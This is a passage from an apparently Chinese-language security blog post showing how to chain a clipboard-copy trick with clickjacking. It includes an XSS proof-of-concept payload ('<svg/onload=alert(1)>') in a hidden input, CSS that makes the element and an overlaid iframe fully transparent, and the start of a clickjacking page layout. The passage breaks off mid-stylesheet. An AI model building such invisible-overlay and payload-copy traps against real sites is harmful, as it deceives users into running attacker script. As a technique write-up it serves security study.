 ```html
<input type="hidden" id="test" value='<svg/onload=alert(1)>'><br>
<input type="submit" value="test" onclick="cpy()">
```

经过测试发现并不能成功的使用复制功能，我的理解是因为在JavaScript代码中有这样一段内容：

```javascript
...
content.select();//全选内容
...
```

既然是全选内容那么一定要有这样一个编辑框或者输入框的存在，所以使用Hidden从实际意义上是没有这样一个”**框**“的。

解决问题：

在这里我选择使用透明样式来从”**视觉上隐藏**“标签：

```html
<style type="text/css">
#test { /*css id选择器*/
    /*控制不透明度的属性，兼容各大浏览器*/
    filter: alpha(Opacity=0); /*提供给IE浏览器8之前的*/
    -moz-opacity: 0; /*提供给火狐浏览器的*/
    -webkit-opacity: 0; /*提供给webkit内核的*/
    -khtml-opacity: 0; /*提供给KHTML内核的*/
    -ms-filter: "progid:DXImageTransform.Microsoft.Alpha(Opacity=0)"; /*提供给IE8之后的*/
    opacity: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
}
</style>
```

那么界面就变成如下的样子了：

![test](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-08-28/test.gif)

注意：**这里没办法使用自动复制到剪贴板，必须需要一个按钮才行**

#### 点击劫持

点击劫持之前写过一篇文章，所以就不在做讲解了，参考我之前写的一篇文章：http://gh0st.cn/archives/2017-12-20/1

构建基本CSS样式：

```css
.testframe {
	height: 100%;
} 
iframe {
	height: 100%;
	width: 100%;
	border: 0;
	margin: 0;
	padding: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
    filter: alpha(Opacity=0); /*提供给IE浏览器8之前的*/
    -moz-opacity: 0; /*提供给火狐浏览器的*/
    -webkit-opacity: 0; /*提供给webkit内核的*/
    -khtml-opacity: 0; /*提供给KHTML内核的*/
    -ms-filter: "progid:DXImageTransform.Microsoft.Alpha(Opacity=0)"; /*提供给IE8之后的*/
    opacity: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
}
#submit {
    position: fixed;
    width: 614px;
    height: 30px;
    margin: 0 auto;
```